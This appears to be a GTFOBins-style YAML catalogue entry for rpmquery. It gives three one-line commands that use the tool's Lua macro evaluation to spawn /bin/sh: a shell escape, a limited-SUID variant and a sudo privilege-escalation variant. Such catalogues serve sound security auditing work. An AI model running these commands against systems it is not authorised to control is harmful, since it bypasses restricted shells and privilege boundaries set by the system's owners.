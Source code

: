 ```yaml
---
functions:
  shell:
    - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
  limited-suid:
    - code: ./rpmquery --eval '%{lua:os.execute("/bin/sh")}'
  sudo:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
---
```

